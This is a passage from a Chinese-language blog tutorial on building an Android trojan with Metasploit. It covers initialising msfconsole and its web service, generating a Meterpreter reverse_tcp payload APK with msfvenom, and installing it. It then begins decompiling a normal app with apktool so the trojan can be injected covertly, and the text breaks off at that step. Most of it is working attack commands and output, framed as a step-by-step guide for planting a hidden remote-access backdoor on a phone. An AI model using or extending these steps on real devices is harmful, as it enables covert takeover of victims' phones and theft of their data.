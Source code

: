 
```
$ msfconsole
```

如果是第一次使用，在输入上面命令的时候，会提示初始化一个数据库，选择y

```
Would you like to use and setup a new database (recommended)? y
```
然后设置用户名和密码，这里都设置为msf

```
[?] Initial MSF web service account username? [opposec]: msf
[?] Initial MSF web service account password? (Leave blank for random password): msf
```
然后提示创建成功

在浏览器打开 https://localhost:5443/api/v1/auth/account

![image](http://lbz-blog.test.upcdn.net/post/%E6%88%AA%E5%B1%8F2020-09-17%E4%B8%8B%E5%8D%887.25.27.png)

输入刚刚的用户名密码，登录进去。


### 制作木马程序
使用msfvenom工具来创建有效载荷APK文件（木马）

```
$ msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.0.101 LPORT=5555 R > /Users/laibinzhi/temp/msf/mua.apk
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10179 bytes
```

注意：
- 10.0.0.101 是电脑的ip地址，可以通过下面命令行获取
```
ifconfig | grep "inet"
```

![image](http://lbz-blog.test.upcdn.net/post/木马-获取ip地址)

- 端口号5555，使用这个就好
- 后面输出的是apk后缀的木马文件

### 安装木马程序

本例子使用最简单的方式安装到手机上，安装成功后，他出现在桌面上，只有一个图标。如果是常见的就是把它反编译，把它注入到现有app中，这样就比较隐秘。

### 反编译注入


1. 反编译
```
apktool d normal.apk
apktool d mua.apk
```
